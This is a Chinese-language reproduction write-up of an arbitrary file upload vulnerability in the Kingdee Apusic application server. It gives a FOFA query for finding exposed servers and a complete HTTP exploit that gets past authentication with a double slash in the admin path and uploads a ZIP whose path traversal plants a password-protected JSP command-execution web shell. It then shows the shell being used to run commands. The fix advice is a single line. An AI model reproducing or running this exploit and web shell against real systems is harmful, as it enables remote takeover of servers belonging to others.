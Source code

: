 
# 金蝶 Apusic 应用服务器 任意文件上传漏洞复现

### 0x01 产品简介

   金蝶 Apusic 应用服务器（Apusic Application Server，AAS）是一款标准、安全、高效、集成并具丰富功能的企业级应用[服务器软件](https://so.csdn.net/so/search?q=%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%BD%AF%E4%BB%B6&spm=1001.2101.3001.7020)，全面支持 JakartaEE8/9 的技术规范，提供满足该规范的 Web 容器、EJB 容器以及 WebService 容器等，支持 Websocket1.1、Servlet4.0、HTTP2.0 等最新的技术规范，为企业级应用的便捷开发、灵活部署、可靠运行、高效管控以及快速集成等提供关键支撑。

### 0x02 漏洞概述

   金蝶 Apusic 应用服务器 deployApp 接口存在任意文件上传漏洞，攻击者可通过双斜杠绕过鉴权并上传恶意压缩包接管服务器权限。

### 0x03 复现环境

FOFA：app="Apusic 应用服务器"

![](assets/1701134718-2d82cbc6e550352e530e13fd385c4f21.png)

### 0x04 漏洞复现

 Exp

```cobol
POST /admin//protect/application/deployApp HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd9acIBdVuqKWDJbd
Accept-Encoding: gzip

------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="appName"

111
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="deployInServer"

false
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="clientFile"; filename="evil.zip"
Content-Type: application/x-zip-compressed

{{unquote("PK\x03\x04\x14\x00\x00\x00\x00\x00\xe5y\x09Uk\x0a\xc8\xe7d\x01\x00\x00d\x01\x00\x007\x00\x00\x00../../../../applications/default/public_html/shell2.jsp<%\x0d\x0a    if \x28\"admin\".equals\x28request.getParameter\x28\"pwd\"\x29\x29\x29 \x7b\x0d\x0a        java.io.InputStream input = Runtime.getRuntime\x28\x29.exec\x28request.getParameter\x28\"cmd\"\x29\x29.getInputStream\x28\x29;\x0d\x0a        int len = -1;\x0d\x0a        byte[] bytes = new byte[4092];\x0d\x0a        while \x28\x28len = input.read\x28bytes\x29\x29 != -1\x29 \x7b\x0d\x0a            out.println\x28new String\x28bytes, \"GBK\"\x29\x29;\x0d\x0a        \x7d\x0d\x0a    \x7d\x0d\x0a%>PK\x01\x02\x14\x03\x14\x00\x00\x00\x00\x00\xe5y\x09Uk\x0a\xc8\xe7d\x01\x00\x00d\x01\x00\x007\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb4\x81\x00\x00\x00\x00../../../../applications/default/public_html/shell2.jspPK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00e\x00\x00\x00\xb9\x01\x00\x00\x00\x00")}}
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="archivePath"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="baseContext"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="startType"

auto
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="loadon"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="virtualHost"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="allowHosts"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="denyHosts"


------WebKitFormBoundaryd9acIBdVuqKWDJbd--
```

PS：上传带命令回显的 jsp 木马

![](assets/1701134718-89eb4bafa8693648cc35c6d5b108328d.png)

命令执行

```cobol
GET /shell2.jsp?pwd=admin&cmd=ifconfig HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

### ![](assets/1701134718-d36f600bbd9ff306a24daabd014e5ebd.png)0x05 修复建议

目前厂商已发布安全补丁，请及时更新：http://www.kingdee.com/。

